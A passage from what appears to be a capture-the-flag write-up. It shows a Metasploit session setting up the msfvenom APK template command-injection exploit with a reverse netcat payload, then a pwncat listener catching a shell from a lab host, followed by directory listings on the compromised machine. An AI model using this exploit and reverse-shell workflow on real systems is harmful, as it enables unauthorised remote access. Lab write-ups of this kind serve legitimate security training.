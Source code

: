 ```plaintext
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > options

Module options (exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.apk          yes       The APK file name


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

[+] msf.apk stored at /home/noraj/.msf4/local/msf.apk
```

Then we select `android`, specify our template and set whatever a lhost.

On our machine we just launch a listener:

```plaintext
$ pwncat -l 4444 -vv
INFO: Listening on :::4444 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:4444 (family 2/IPv4, TCP)
INFO: Client connected from 10.129.77.135:43478 (family 2/IPv4, TCP)
id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
```

## System exploitation

Let's see where we are and locate the flag:

```plaintext
$ ls -lhA
total 20K
drwxrwxr-x 2 kid kid 4.0K Feb  3 07:40 __pycache__
-rw-rw-r-- 1 kid kid 4.4K Feb  3 11:03 app.py
drwxrwxr-x 3 kid kid 4.0K Feb  3 07:40 static
drwxrwxr-x 2 kid kid 4.0K Feb  3 07:40 templates

$ pwd
/home/kid/html

$ ls -lhA ..
total 52K
lrwxrwxrwx 1 root kid    9 Jan  5 20:31 .bash_history -> /dev/null
-rw-r--r-- 1 kid  kid  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 kid  kid 3.7K Feb 25  2020 .bashrc
drwxrwxr-x 3 kid  kid 4.0K Feb  3 07:40 .bundle
```